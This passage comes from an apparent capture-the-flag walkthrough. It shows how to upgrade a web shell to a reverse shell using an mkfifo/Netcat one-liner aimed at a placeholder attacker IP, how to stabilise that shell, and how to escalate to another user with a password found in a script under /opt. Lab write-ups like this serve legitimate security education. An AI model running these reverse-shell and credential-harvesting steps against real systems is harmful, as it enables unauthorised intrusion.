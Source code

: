 ![10bfe7f76f219af98200bd5c40ed1212.png](/resources/4b7a436a7f3c458e92d79e788b2eae39.png)

![a8b24de67aff0248ee180f54db59b51c.png](/resources/a9be38e63b4446f8ba2daf8aa2adf3ef.png)

From here we can use the `mkfifo` version of the reverse shell to get a better shell. First we start a [Netcat](https://linux.die.net/man/1/nc) listener on our attacking machine:

```sh
nc -nvlp 4444
```

Then back on the web shell we enter the command:

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f
```

Let's stablize the shell we just got doing the following steps:

1. `python3 -c 'import pty;pty.spawn("/bin/bash")'` ... Use Python to spawn a stable shell
2. `CTRL + Z` ... Backgrounds the current shell
3. `stty raw -echo;fg` ... Fixes echoing and foregrounds the shell
4. `export TERM=xterm-256color` ... Sets terminal to xterm

![8d28f547ea860567eddf9b7a4360a384.png](/resources/ce7930cb76314f0a857f27fa665ca778.png)
![5384b576af8fa7a434d27c16f963646e.png](/resources/8d6c0bb0cbd8449c8f6a9a4316671d05.png)

# Privilege Escalation

### \[-] lucien\@dreaming

After some enumeration, we will find an interesting file in the `/opt` directory named `test.py`. If we `cat` this file we'll find the password for the user `lucien`:

```sh
cd /opt
ls -lah
cat test.py
```

![863a6ca6cb76b489e97fbd96fd005800.png](/resources/b141e3aa3264457ba17e068b31a81eba.png)

Let's open a new terminal and connect as `lucien` via SSH and enter the password when prompted:

```sh
ssh lucien@<VICTIM_IP>
yes
<PASSWORD>
```

![7d1b1c80cbee27f2d8b8635e48d38460.png](/resources/926b7569d35c4a2f9496813a8f0d2e84.png)
![7f8693fee5f48c1cbbae24751bc4a953.png](/resources/f308a822a3484f45b802762e78ccc491.png)

The flag for `lucien` is in `/home/lucien/lucien_flag.txt`:
